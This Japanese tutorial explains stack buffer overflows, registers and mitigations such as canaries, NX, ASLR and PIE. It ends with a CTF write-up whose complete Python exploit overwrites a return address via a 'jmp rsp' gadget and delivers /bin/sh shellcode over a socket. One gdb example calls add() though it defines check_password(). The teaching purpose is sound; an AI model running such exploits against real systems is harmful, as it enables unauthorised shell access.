


# Buffer Overflow (バッファオーバーフロー)

## Buffer(バッファ)とは

通常コンピュータプログラムは何らかの情報を格納するための領域をメモリ上に確保する。
その確保する情報とは数値や文字列であったり、文字情報を確保する際には、文字数に応じて連続したメモリ領域を確保する必要がある。

この同じ形式のデータ(ここでは文字)を複数個格納するために**メモリ上に確保する領域のことをバッファ領域**と読んでいる。

バッファの確保方法には**スタック**と**ヒープ**の2種類がある。
`スタックは、主に関数内で一時的に利用するデータを格納`するために利用される。
関数を呼び出す際は、関数呼び出し命令の次の命令が格納されているアドレス、つまり`子関数からの戻り先アドレス（以下、リターンアドレス）もスタックに格納`される。

`ヒープはプログラムによってメモリが必要になった際に、動的に確保`されたり、`プログラムの開始から終了まで参照される情報`を格納しておく領域。

## オーバーフローが起こる原因

なぜメモリ上に確保したバッファ領域はオーバーフローを起こすのか。
メモリは無限に存在するわけではないため、メモリ上に確保されるバッファ領域の大きさにも上限がある。

`バッファ領域の上限はプログラムが規定しているが、プログラムを実行するCPUはバッファ領域の上限を知らない`。CPUはプログラムに従って命令を実行するだけです。

情報をバッファ領域に格納する際、`格納する情報の大きさがバッファ領域の上限より小さい場合`は問題はないが、バッファ領域の上限を超えてしまう場合、`CPUはバッファ領域を超えて情報を格納`してしまい、バッファがオーバーフローしてしまう。

バッファオーバーフローが起こってしまうと、`メモリ上の不正な場所に情報を格納する`ことになってしまい、**プログラムが誤動作**することになってしまう。


### セキュリティーホールになるわけ

バッファオーバーフローがセキュリティホールになるワケをスタック上に確保されるバッファを例にする。

スタックには、CPUがそれまで実行していた関数の内部で使用しているバッファやリターンアドレスなどが保存される。
スタック上に存在するバッファでオーバーフローが発生すると、**リターンアドレスが格納されている領域も書き換えられてしまう**ことがある。`バッファオーバーフローによってリターンアドレスが書き換えられてしまう`と、親関数に戻る際に`正常なアドレスに戻れなくなる`。

この`バッファオーバーフローを利用して、リターンアドレスに「悪意のあるコードを格納しているメモリアドレス」をセットすることができる`としたらどうなるか。
親関数に戻る際に**本来の制御を横取りして、悪意のあるコードを実行**することができてしまう。

## バッファオーバーフローの流れ

下記の図の上側のようにスタック上のバッファ領域より大きい入力データのコピーが行われたとする。


上図のコピー後のスタックの状態のように、**バッファ領域より大きい入力データをサイズのチェックを行わずにコピー**を行ってしまうと、`バッファオーバーフローによりリターンアドレスが書き換え`られてしまう。

**プログラムが本来実行すべきリターンアドレスが書き換えられてしまう**ため、`プログラムが誤動作`してしまう。
命令アドレスが悪意のあるコードの存在するメモリアドレスで書き換えられた場合、CPUは悪意のあるコードを実行することになってしまう。

悪意のあるコードはどこにあるのか。答えは**オーバーフローさせるバッファに存在**する。
先ほどの図の下側のように入力するデータを作成することでバッファオーバーフローにより、悪意のあるコードを実行させることができる。
*悪意のあるコードのアドレスはスタック上であればある程度予測することが可能*であり、他にも**悪意のあるコードを実行させるためのテクニックがいくつか存在**する。

## 対策

どのようにすればバッファオーバーフローが発生しないプログラムを作成することができるのか。
C言語でプログラムを作成する際に注意することとしては以下のような点が挙げられる。

- バッファにデータを保存する際にデータサイズがバッファサイズを超えていないことを常に確認
- 標準関数の中で`strcpy`や`strcat`といったバッファのサイズをチェックしないでコピーする関数は使用しない

それでもバッファオーバーフローによるセキュリティホールが数多く見つかる。
プログラマが**間違った形式のデータが入力されることはないだろうという思い込み**や、プログラムの**実行速度を早くするため余計な処理を省く過程でチェック処理を省略**してしまうというようなことが考えられる。

個人で利用するために作成したプログラムならそれでも構わないが、広く公開し誰が使用するかは分からないプログラムの場合、`プログラマの想定していない使い方をされる可能性`が十分ある。
そのため、想定していないデータが入力されることは確実に存在する。

バッファオーバーフローを発生させないプログラムを作成するためには、`プログラマが入力データの形式を信用しない`ことが重要。
`プログラムをテストする際に、セキュリティホールとして利用できるかどうかという観点でテストを行うことも重要`になる。

# スタックオーバーフロー

## スタックとは

プログラムが実行されるときにはメモリが使用される。
このメモリは、64bitであれば16進数で0x0 ~ 0xffffffffffffffff まであり、プログラムのコードやプログラム中で使用した変数の値などが保存される。

スタックはメモリ上の領域であり、主にプログラムが関数を呼び出した時に関数内で宣言された値を格納するために使用される。

```
変数以外にも以下のものを格納する
- ローカル動的変数
- フレームポインタ
- 戻りアドレス(リターンアドレス)
```

保存するデータ集合体をスタックフレームという。

また、関数内で宣言してもmallocなどの動的確保された値はスタック領域には保存されず、ヒープ領域に保存される。

これは、関数を呼び出すごとに積み重ねられ、*関数が終了すると新しいものからポップ*される。

実際のメモリ内では、`スタックは高いアドレス (0xffffffffffffffff) の方から低いアドレスの方 (0x0) に伸びて`おり、`ヒープは低いアドレスから高いアドレスに伸びて`いる。

## IP(インストラクションポインタ)

スタックの詳しい説明には、IPという用語を理解する必要がある。

IP(インストラクションポインタ、またはプログラムカウンタ)は、次に実行する命令を格納するレジスタである。
レジスタが何かわからない人のために簡単に説明すると、レジスタとは*CPUそのものに内蔵されている記憶装置の一つ*である。(詳しい説明はここでは省く)

IPの動作をC言語を用いて説明する。

```c:ip.c
#include <stdio.h>

int test () {
    int n = 0;

    return 0;
}

int main () {
    int i = 0;

    test();

    return 0;
}
```

上記のコードで、プログラムが10行目を実行し終わった所だとする。(int i = 0)
そうすると、IPには次に実行する12行目の部分( test() )のアドレス格納される。

次に12行目が実行されるが、これは関数呼び出しである。
関数呼び出しでは、次に実行すべき命令のアドレス（ここでは、14行目の return 0）をスタックに保存してからその関数を実行する。

これは、関数が終了して戻ってきた際に次にどのアドレスにある命令を実行すればよいかを知るためである。

関数が呼び出されて4行目(test関数内のint n = 0)が実行され、次に6行目(test関数内のreturn 0)が実行される。
ここで、test関数は終了するのだが、関数呼び出しの時にスタックに保存したアドレス(14行目部分のアドレス)をIPに設定することで、main関数に戻り14行目を実行する。

IPはこのように、プログラムを実行するにおいて重要な役割を担っている。
オーバーフローなどの脆弱性がある場合、`攻撃者はこのIPの値を上書きすることでメモリ上の任意の場所にある命令を実行`することができる。

## フレームポインタ(FP)

フレームポインタ(FP)とは、スタックに**最後にpushされた関数のスタックフレームのrbpの値**を示す。(rbpとはベースポインタの意味で後述)

戻りアドレスには、遷移した関数の処理から、元に戻実行時点のプログラムカウンタ(IP,RIP)の値が入る。(IP : 次に実行する命令を格納するレジスタ)

## レジスタの種類

- SS : スタックセグメント
- RSP: スタックポインタ
- RBP: ベースポインタ
- RIP: プログラムカウンタ

RIPは前述したIP(インストラクションポインタ)のことでもある。
これは64bit(x64)の場合の呼び名なので、32bit(x86)の場合は`esp/ebp/eip`になる。

勘違いを防ぐためにもRSP/RBP/RIPなどはスタック(メモリ)内ではなく、レジスタなので**CPU内部**にある。


### RSP スタックポインタ
スタックのトップのメモリアドレスが格納される。
push命令でデクリメント(-)され、pop命令でインクリメント(+)される。
(pushすると積み上がるので、0x00の方に進んでいくことから-マイナス方向に伸びる。)

現在処理中の関数の保存した**スタックの先頭を示すメモリアドレス**を保存するレジスタ。


### RBP

関数内において`スタック領域を扱う処理の基準となるメモリアドレス`です。
現在処理中の関数の保存した**スタックの末端を示すメモリアドレス**を保存するレジスタ

どの関数を処理しているかによって、レジスタrspに入るメモリアドレスが上の画像のように異なる。

---

関数Aが呼び出されるとスタックに関数Aのスタックフレームがpushされるため、その先頭アドレスがレジスタRSPに入る。

そして関数Aの処理が終わり、main関数に処理が戻るときに関数Aのスタックフレームがpopされるので、main関数のスタックフレームの先頭アドレスがレジスタRSPに入る。

## スタックの動作

スタックは、LIFO(後入れ先出し)方式の構造で、PUSHで値を格納し、POPで値を取り出す。
実際にプログラムでどう使用されるか簡単に説明する。
例えば、以下のようなプログラムを実行するとしよう。

```c:lifo.c
#include <stdio.h>

void B() {
  char buf[16];
  memcpy(buf, "BBBBBBBBCCCCCCCC", 16);
}

void A() {
  char buf[8];
  memcpy(buf, "AAAAAAAA", 8);

  B();
}

int main() {

  A();

  return 0;
}
```

上記は、main関数で関数Aを呼び出し、関数Aの中で関数Bを呼び出す単純なコードである。
ここで各呼び出しと関数終了時のスタックの状態を見るとおおよそ次のようになる。


また、変数に格納される値は、高いアドレス(画像で言うと下)方向(0xffffffffffffffff)に格納されていくので、`もし関数Bで16を越える文字列が配列bufにコピー`すると*戻りアドレスが上書き*される。
（実際は、配列と戻りアドレスの間は少し空いているので、数バイト溢れただけでは戻りアドレスは上書きされない）

### スタック動作中のレジスタの動き

- 1 : 呼び出し元のRBP内のアドレスをスタックにpushする
- 2 : RSP内のアドレスをRBPレジスタに代入する

1で呼び出し元であるmain関数のアドレスをスタックにpushする。RBPレジスタに記録されているため、RBPレジスタからアドレスを取り出してスタックにpushする。

2の部分でRSPレジスタに記録されているアドレスを取り出して、RBPレジスタに代入することで、1でpushしたスタックの一番先頭のアドレスがRBPレジスタに入ることで基準になる。

関数の最後で次の処理を行う。

- 1 : RBP内のアドレスをRSPに代入する
- 2 : POPして、RBPレジスタに呼び出し元の値を入れる
- 3 : RETQ命令で呼び出し元に戻る

関数で処理が終了したら、1でRBPレジスタからアドレスを取り出して、RSPレジスタに代入します。

2の部分関数の最後の部分をPOPしたら、POPした箱からアドレスを取り出します。このアドレスは呼び出し元(main関数の一番下であるrbpの部分)を指しており、そのアドレスをRBPレジスタに格納します。

最後の3の部分でRETQ(return命令)で、main関数の一番下である呼び出し元のアドレスに戻ります。

### アセンブリの命令


**push**

- 1 : rspレジスタ内のアドレスの値をデクリメント(マイナス)する
- 2 : rspレジスタが指すメモリアドレスに値を書き込む

スタックはメモリアドレスの値の小さい方向(0x00)に伸びていく

**pop**

- 1 : rspレジスタが指すメモリアドレスから値を呼び出す
- 2 : rspレジスタ内のアドレスの値をインクリメント(プラス)する

**callq**

- 1 : rspレジスタ内のアドレスの値をデクリメント(マイナス)します。
- 2 : rspレジスタが指すメモリアドレスに**ripレジスタが指すアドレスの次のアドレス(上方向=0x00方向)**を書き込みます。
- 3 : ripレジスタに呼び出し先のアドレスを設定します。

**retq**

- 1 : rspレジスタ内のメモリアドレスから値を読み出してripレジスタに設定します。
- 2 : rspレジスタ内のアドレスの値をインクリメントします。

#### Function prologue

関数の先頭にある次の2命令はFunction prologueと呼ばれるお決まりの処理。
一番最初に行う命令。

**push %rbp**

呼び出し元のrbpをスタックにpushします。

呼び出し元であるアドレスがRBPレジスタ内にあるため、RBPレジスタ内の値(アドレス)をスタックにpushします。

**mov %rsp,%rbp**

rbpにrspをコピーします。
rspの値をrbpレジスタ内にコピーします。

関数内ではrbpを基準メモリアドレスとします。
これにより`rbp = rsp`になります。
(正確には後の`sub $0x20,%rsp`などの命令でrspレジスタ内の値を減算処理することでrspレジスタの値を更新している。)



`caller addr`は呼び出し元のアドレスです。
呼び出し元のcallq命令の次の命令のアドレスです。
caller addrは呼び出し元のcallq命令でスタックにpushされます。

#### Function epilogue

関数の最後の2命令はFunction epilogueと呼ばれるお決まりの処理。
一番最初に行う命令。

**leaveq**

leaveq命令は次の命令と同じです。

```Bash
mov %rbp,%rsp
pop %rbp
```

rspレジスタにrbpレジスタ内の値をコピーする。
そして、pop命令で呼び出し元のアドレスをpopしてrbpレジスタに書き込みます。

つまり`Function prologueの逆処理`を行う。

leaveq命令後のスタック状態は次の通り


**retq**

スタックから`caller addr`をpopしてripレジスタに代入します。
これにより呼び出し元に戻る。

## スタックオーバーフローを起こす

実際にスタックオーバーフローを起こすコードを書いてみる。

```c:stack_overflow.c
// vul.c
#include <stdio.h>
#include <string.h>

int main() {
  char buf[8];

  memcpy(buf, "AAAAAAAAAAAAAAAAAAAAAAAAA", 25);

  return 0;
}
```

上記のコードは8文字文の配列であるbufに25文字を入れたことにより、バッファが溢れ、その影響でプログラムが強制終了する。

```Bash
$ uname -a
Linux cmp 5.11.0-40-generic #44~20.04.2-Ubuntu SMP Tue Oct 26 18:07:44 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

$ gcc stack_overflow.c -o stack_overflow -fno-stack-protector
$ ./stack_overflow
Segmentation fault (core dumped)
```

gccのコンパイラのオプションに`-fno-stack-protector`を付けることで、スタック・オーバーフロー・セキュリティー・チェックが行われないようにする。

実際にコンパイルして実行してみると、想定通りにオーバーフローを起こして強制終了したことがわかる。

これは、関数に戻るためのアドレスが上書きされたことにより、よくわからないアドレスにある命令を実行しようとしてエラーが発生し、プログラムが強制終了したからである。

また、上記で出力された segmentation fault とは、アクセスが許可されていないアドレスにアクセスすると起こるエラーである。

## gdb (The GNU Debugger)でデバッグしてみる

下記のコードをgdbでデバッグしてみます。
main関数から足し算をするadd関数を呼び出します。


```c
#include <stdio.h>

int check_password(
    int a1,
    int a2,
    int a3,
    int a4,
    int a5,
    int a6,
    int a7,
    int a8,
    int a9,
    int a10
) {
    int c;
    c = a1 + a2 + a3 + a4 + a5 + a6 + a7 + a8 + a9 + a10;
    return c;
}

int main(int argc, char *argv[]) {
    int ret = add(1, 2, 3, 4, 5, 6, 7, 8, 9, 10);
    return ret;
}
```

gccでコンパイルする

- g : デバッグ情報あり
- O0 : 最適化なし


```Bash
$ gcc add.c -o add -g -O0

$ gdb ./add
```

```Bash
# ソースコード表示
(gdb) l

# アセンブルを表示
(gdb) disassemble

# レジスタの内容を表示
(gdb) info register rip rsp rbp
```

- https://gist.github.com/riywo/5480889
- https://qiita.com/tobira-code/items/75d3034aed8bb9828981
- https://codezine.jp/article/detail/420?p=3

## 対策技術

### SSP (Stack Smash Protection)

SSPとはコンパイラを用いて、スタックバッファオーバーフロー脆弱性を悪用した攻撃を防ぐ対策技術。
SSPはスタックフレーム内のebpレジスタとローカル変数の間に配置した`canary`と呼ばれる値の書き換えの有無によってスタックバッファオーバーフロー攻撃を検知する対策技術。

プログラムの実行中で、関数の呼び出し時に`スタックにcanaryを挿入`し、関数からリターンする直前に埋め込んだ`canaryの値が書き換えられていないかチェック`する。

canaryの値が書き換えられていない場合は、通常通り実行が完了するが、スタックバッファオーバーフロー攻撃によってバッファのサイズ以上の入力があり、canaryの値が書き換えられていた場合は実行を中止する。

実行を中止することによって同じスタックフレーム内のリターンアドレスや変数、ポインタなどが改竄されてしまうことを防ぐ。ただし、**canaryの値を正しく上書きすると攻撃が成功してしまう。**

SSPは、コンパイル時に`canaryを挿入する命令`と`canaryの値をチェックする命令`が、オリジナルのプログラムの**関数の前後**に挿入される。


### データ実行防止機能

データ実行防止機能とは、CPUの機能を用いたスタックバッファオーバーフロー脆弱性を悪用した攻撃を防ぐ対策技術。

データ実行防止機能では、プログラムの実行時に用意される仮想メモリ空間を`「（プログラムが配置される）テキスト領域」`と`「（データのみ配置される）データ領域」`に**分離**する。

プログラムの実行時に、データ領域にあるコードを実行しようとすると、CPUがプログラムを停止させる。

データ実行防止機能はバッファオーバーフロー脆弱性を悪用してデータ領域に送り込んだ不正なコードを実行する攻撃に対して有効。
万が一リターンアドレスを書き換えられてしまったとしても、データ領域から不正なコードの実行を阻止することができる。

```
データ実行防止機能の実現には、CPUの機能が必要で、Intel CPUではNXbitと呼ばれる。
NXbitなどを用いたOSでのデータ実行防止機能を、WindowsOSではDEP、LinuxではPaXやExec Shield、OpenBSDではW^Xと呼ばれます。

※一部，CPUの機能を用いていないものもある。
```


### アドレス空間のランダム化 (ASLR：Address Space Layer Randomization)

ASLRは、プログラムの実行開始時に決定される**データ領域やスタック領域、ヒープ領域などのアドレスを実行毎にランダムにする**ことで攻撃者によるアドレスを指定した攻撃を防ぐ対策技術。

データ領域やスタック領域、ヒープ領域などのアドレスが固定されている場合、攻撃者から重要なデータのアドレスを特定されやすくなる。
これらの領域のアドレスをランダムにすることで、特定のアドレスを狙った書き換えることが困難になる。
ASLRはOSの機能として実装されていて、Windows,Linux,iOSやAndroidなどに実装されている。

前述の領域に加えて、対象プログラムのテキスト領域のアドレスもランダム化することができる。
それを実現するのが、`PIE(Position-Independent Executable：位置独立実行形式)`と呼ばれる仕組みです。


### Automatic Fortification

`Automatic Fortification`は、GCCのバージョン4.0から導入されているセキュリティ機構。
バッファオーバーフローを引き起こす要因の一つとして、プログラム中でstrcpy関数のように書き込み先のバッファのサイズを確認せずに処理をおこなってしまうライブラリ関数を利用していることが挙げられる。

Automatic Fortificationは脆弱性の原因となるような関数をコンパイル時に、別の安全性の高い同じ機能を持つ関数へと置換する。


# CTFで学ぶ脆弱性 (スタックバッファオーバーフロー編)

アドレス空間のランダム化機能であるASLR機構は、これらを回避する`Return Oriented Programming`などの攻撃手法も登場する。

## 攻撃手法 ret2esp

ret2espは`Return to esp`の略称。
espとはスタックポインタとも呼ばれ、常にスタックの先頭を指しているレジスタ。
ret2espはリターンアドレスを書き換えてespが指す先にプログラムの処理を遷移させる攻撃手法。
今回はespが指す先にシェルコードを配置することでシェルコードを動かす。

それでは具体的にどこのアドレスを指すようにリターンアドレスを書き換えれば良いのか。
ここで、`ASLR`が有効でも`.textセクション`は固定のアドレスに配置されるという性質を利用する。
`.textセクション`内に`jmp esp`のような命令がある場合に、そこにリターンするように書き換えることでシェルコードが実行される。
以下の図が遷移のイメージです。
リターンするとスタックがpopされ、書き換えられたリターンアドレスに処理が遷移する。
その後、espが指す先に遷移し、シェルコードが実行される。


## CTF問題の練習

問題文

```
Welcome to 2017 DEF CON Quals!
smashme_omgbabysfirst.quals.shallweplayaga.me 57348
[Files](https://2017.notmalware.ru/ac33905b2171d28ea2e15f8caa4a202bcdae18da/smashme)
```

- 脆弱性を含む実行ファイルとサーバーのFQDN、ポート番号が与えられます。
- 実行ファイルを解析して、脆弱性を発見します。
- サーバーに攻撃をして、サーバー内に保存されているフラグファイルを取得します。

### 解析

```Bash
# intel構文で出力する
$ objdump -d smashme -M intel > dump.txt

$ cat dump.txt
```

`<main>`関数を抽出する。

```
00000000004009ae <main>:
  4009ae:       55                      push   rbp
  4009af:       48 89 e5                mov    rbp,rsp
  4009b2:       48 83 ec 50             sub    rsp,0x50
  4009b6:       89 7d bc                mov    DWORD PTR [rbp-0x44],edi
  4009b9:       48 89 75 b0             mov    QWORD PTR [rbp-0x50],rsi
  4009bd:       bf a8 06 4a 00          mov    edi,0x4a06a8
  4009c2:       e8 d9 f2 00 00          call   40fca0 <_IO_puts>
  4009c7:       48 8b 05 7a 8d 2c 00    mov    rax,QWORD PTR [rip+0x2c8d7a]        # 6c9748 <_IO_stdin>
  4009ce:       48 89 c7                mov    rdi,rax
  4009d1:       e8 aa ed 00 00          call   40f780 <_IO_fflush>
  4009d6:       48 8d 45 c0             lea    rax,[rbp-0x40]
  4009da:       48 89 c7                mov    rdi,rax
  4009dd:       b8 00 00 00 00          mov    eax,0x0
  4009e2:       e8 e9 f0 00 00          call   40fad0 <_IO_gets>
  4009e7:       48 8d 45 c0             lea    rax,[rbp-0x40]
  4009eb:       be d8 06 4a 00          mov    esi,0x4a06d8
  4009f0:       48 89 c7                mov    rdi,rax
  4009f3:       e8 28 f9 ff ff          call   400320 <.plt+0x30>
  4009f8:       48 85 c0                test   rax,rax
  4009fb:       74 07                   je     400a04 <main+0x56>
  4009fd:       b8 00 00 00 00          mov    eax,0x0
  400a02:       eb 0a                   jmp    400a0e <main+0x60>
  400a04:       bf 00 00 00 00          mov    edi,0x0
  400a09:       e8 22 e0 00 00          call   40ea30 <exit>
  400a0e:       c9                      leave
  400a0f:       c3                      ret
```

#### push rbp

`rbp`はベースポインタと呼ばれるレジスタで、関数に割り当てられたスタック領域のベース(底)を示す。
関数が呼ばれた時点では、`rbp`には呼び出し元の関数のベースポインタの値が格納されているので、それを最初にpushすることで保存している。

```
  4009ae:       55                      push   rbp
```

#### mov rbp,rsp

続いて登場するrspはスタックポインタと呼ばれるレジスタで、スタックの最上段(最も最後に参照された位置)を示す。
この値を`rbp`に代入することで、いまのスタックポインタをこの関数におけるベースポインタとする。

```
  4009af:       48 89 e5                mov    rbp,rsp
```

#### sub rsp,0x50

rspから0x50(80)を引いて、rspレジスタに代入する。

```
  4009b2:       48 83 ec 50             sub    rsp,0x50
```

#### mov DWORD PTR [rbp-0x44],edi

`[rbp - 0x44(68)]`のアドレスにediの値を代入する。

```
  4009b6:       89 7d bc                mov    DWORD PTR [rbp-0x44],edi
```

#### mov DWORD PTR [rbp-0x50],rsi

`[rbp - 0x50(80)]`のアドレスにrsiの値を代入する。
上記のアドレスから`12Bytes`離れた連続した位置にある。

```
  4009b9:       48 89 75 b0             mov    QWORD PTR [rbp-0x50],rsi
```

#### mov edi,0x4a06a8

ediレジスタに`0x4a06a8`を代入する。

```
  4009bd:       bf a8 06 4a 00          mov    edi,0x4a06a8
```

#### leave

`leave命令`は、以下の２つの命令を組み合わせたのと同等の処理をする。

```
mov rsp, rbp
pop rbp
```

```
  400a0e:       c9                      leave
```

#### ret

ここまでで関数内の処理はすべて完了したので、あとは呼び出し元へと戻る。


### 解析 (自前のコード)

```c:smashme.o
#include<stdio.h>
#include<string.h>
#include<stdlib.h>
 
int main(int argc, char *argv[]){
    char input[0x40];
 
    puts("Welcome to the Dr. Phil Show. Wanna smash?");
    fflush(stdin);

    // 0x40(64バイト)以上でオーバーフロー
    gets(input);
  
    // 特定の文字列を含んでいるかチェック
    if(strstr(input, "Smash me outside, how bout dAAAAAAAAAAA")){
        return 0;
    }
    exit(0);
}
```

`smashme.o`というファイル名で保存するようにコンパイル。

```
$ gcc -fno-stack-protector -z execstack -static smashme.c -o smashme.o

$ file smashme.o
smashme.o: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=92bf79d3e9ffcae05d47c776b8a8864d68c151ca, for GNU/Linux 3.2.0, not stripped
```

プログラムの処理は主に以下の流れになっている。

- 1 : 64バイトのバッファを用意
- 2 : [Welcome to the Dr. Phil Show. Wanna smash ?] の出力処理
- 3 : ユーザーからの入力処理
- 4 : strstr()関数によって、ユーザーの入力の中に特定の文字列があるかチェック
  - 特定の文字列「Smash me outside, how bout dAAAAAAAAAAA」
  - 4.1 : 特定の文字列があればreturn 0;する
  - 4.2 : 特定の文字列が無ければexit(0);で終了

```Bash
# 特定の文字列を含めて、Segmentation faultを発生させる
$ python -c "print('Smash me outside, how bout dAAAAAAAAAAA' + 'A'*100)" | ./smashme.o
Welcome to the Dr. Phil Show. Wanna smash?
Segmentation fault
```

```Bash
# 4.2. 特定の文字列が無いので、exit(0);で終了する
$ python -c "print('A'*100)" | ./smashme.o
Welcome to the Dr. Phil Show. Wanna smash?
```

dump2.txtで保存する。

```
$ objdump -d smashme -M intel > dump2.txt
```

アセンブリの中身を見てみる。

```
0000000000401d95 <main>:
  401d95:       f3 0f 1e fa             endbr64
  401d99:       55                      push   rbp
  401d9a:       48 89 e5                mov    rbp,rsp
  401d9d:       48 83 ec 50             sub    rsp,0x50
  401da1:       89 7d bc                mov    DWORD PTR [rbp-0x44],edi
  401da4:       48 89 75 b0             mov    QWORD PTR [rbp-0x50],rsi
  401da8:       48 8d 3d 59 32 09 00    lea    rdi,[rip+0x93259]        # 495008 <_IO_stdin_used+0x8>
  401daf:       e8 6c fd 00 00          call   411b20 <_IO_puts>
  401db4:       48 8b 05 1d e9 0b 00    mov    rax,QWORD PTR [rip+0xbe91d]        # 4c06d8 <stdin>
  401dbb:       48 89 c7                mov    rdi,rax
  401dbe:       e8 1d f8 00 00          call   4115e0 <_IO_fflush>
  401dc3:       48 8d 45 c0             lea    rax,[rbp-0x40]
  401dc7:       48 89 c7                mov    rdi,rax
  401dca:       b8 00 00 00 00          mov    eax,0x0
  401dcf:       e8 8c fb 00 00          call   411960 <_IO_gets>
  401dd4:       48 8d 45 c0             lea    rax,[rbp-0x40]
  401dd8:       48 8d 35 59 32 09 00    lea    rsi,[rip+0x93259]        # 495038 <_IO_stdin_used+0x38>
  401ddf:       48 89 c7                mov    rdi,rax
  401de2:       e8 d9 f2 ff ff          call   4010c0 <.plt+0xa0>
  401de7:       48 85 c0                test   rax,rax
  401dea:       74 07                   je     401df3 <main+0x5e>
  401dec:       b8 00 00 00 00          mov    eax,0x0
  401df1:       eb 0a                   jmp    401dfd <main+0x68>
  401df3:       bf 00 00 00 00          mov    edi,0x0
  401df8:       e8 c3 e3 00 00          call   4101c0 <exit>
  401dfd:       c9                      leave
  401dfe:       c3                      ret
  401dff:       90                      nop
```

### リターンアドレスの書き換え
バッファの先頭からリターンアドレスまでの位置はバッファサイズ64バイトに加えて、rbpレジスタのバックアップがスタック領域に保存されている。
ここではrbpレジスタの詳しい説明は割愛しますが、8バイトの領域が使われているので、64 + 8 = 72バイトがリターンアドレスまでのサイズです。

### shellcodeの実行のさせ方

リターンアドレスをどこ宛に書き換えればよいかを探す。
ここではrp++というツールを用いて、`.textセクション内にrspレジスタが指すアドレス`に処理が遷移する命令を探す。

```Bash
$ rp -f ./smashme --rop=1 --unique | grep "jmp rsp"
0x004c25aa: clc  ; jmp rsp ;  (1 found)
0x004c54f2: cli  ; jmp rsp ;  (1 found)
0x0045f782: jmp rsp ;  (5 found)
0x004bd849: sar ebp, cl ; jmp rsp ;  (1 found)
0x004bd84a: std  ; jmp rsp ;  (1 found)
0x004c25a9: xor al, bh ; jmp rsp ;  (1 found)
```

真ん中の `jmp rsp` を使用する。

### 計画

解析した結果、どのような攻撃コードを作成すれば攻撃が成功するかを考える。

脆弱性は入力時に64バイトより大きな入力を制限していない点にあり、64バイトより大きな入力を受け付けた場合にスタックバッファオーバーフローが発生する。
その結果、リターンアドレスを書き換えることは可能ですが、入力した文字列に`「Smash me outside, how bout dAAAAAAAAAAA」`が含まれていなければ、書き換えたリターンアドレスに飛ぶことなくexit(0);で終了してしまう。
そのため、攻撃を成功させるには、入力文字列に`「Smash me…（省略）」`という文字列を入れる必要がある。

そして、.textセクション内にjmp rsp命令を探した結果、 `0x0045f782` にあることがわかる。
そのため、リターンアドレスを `0x0045f782` に書き換える。
最後に実行するためのシェルコードを入れることで攻撃コードができる。



### 攻撃コード

上で説明した流れを元に作成した攻撃コードは次のようになる。

```python:exploit.py
import socket
import struct
import telnetlib

smash_me = 'Smash me outside, how bout dAAAAAAAAAAAA'
buf_size = 64 + 8
ret_addr = 0x0045f782 # jmp rsp

# http://shell-storm.org/shellcode/files/shellcode-806.php
shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# \xd1\x9d\x96\x91\xd0\x8c\x97\xff = 0xFF978CD091969DD1


buf = smash_me
buf += 'A' * (buf_size - len(smash_me))
buf += struct.pack('<Q', ret_addr)
buf += shellcode

print('len', len(smash_me))
print('buf', buf)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('smashme_test.local', 57348))
s.sendall(buf)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

実行する

```
$ python exploit.py

ls
```

参考資料
- https://www.intellilink.co.jp/article/column/ctf01.html
